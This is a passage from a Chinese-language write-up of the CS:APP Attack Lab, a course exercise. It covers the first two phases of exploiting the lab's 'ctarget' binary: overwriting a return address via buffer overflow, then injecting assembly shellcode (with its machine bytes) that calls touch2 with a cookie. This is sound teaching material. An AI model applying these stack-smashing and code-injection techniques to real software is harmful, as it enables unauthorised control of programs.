 前四十位是啥都不重要，后面四位按照 little endian 的规则逆向填上地址就好（注意这里为了排版用了换行，实际上都应该在一行，用空格分开），这样就改写了属于原来的返回地址。

接着我们把这个字符文件转换成字节码 `./hex2raw < p1.txt > p1r.txt`，最后执行一下 `./ctarget -i p1r.txt`，就可以看到结果了：

![成功完成第一关](/images/14554180666014.jpg)

从第一关我们就学到了如何利用缓冲区来调用另外的过程，接下来我们来看第二关。

## 第二阶段

第二关中需要插入一小段代码，`ctarget` 中的 `touch2` 函数的 C 语言如下：

```c
void touch2(unsigned val){
    vlevel = 2;
    if (val == cookie){
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

根据代码就可以看出来，我们需要把自己的 cookie 作为参数传进去，这里需要把参数放到 `%rdi` 中，只使用 `ret` 来进行跳转。

所以第一步，我们先来写需要注入的代码(文件 p2.s)：

```asm
mov $0x45374fee,%rdi # set my cookie as the first parameter
pushq $0x401860
ret
```

这里首先把参数传入到 `%rdi` 寄存器中，然后把 `touch2` 函数的起始地址压入栈中，最后返回，这样就可以跳转到 `touch2`。然后转换成对应的机器码 

```bash
gcc -c p2.s
objdump -d p2.o > p2.byte
```

得到 p2.byte 文件的内容是

```
p2.o:     file format elf64-x86-64
Disassembly of section .text:
0000000000000000 <.text>:
   0:	48 c7 c7 ee 4f 37 45 mov    $0x45374fee,%rdi
   7:	68 60 18 40 00       pushq  $0x401860
   c:	c3                   retq
```
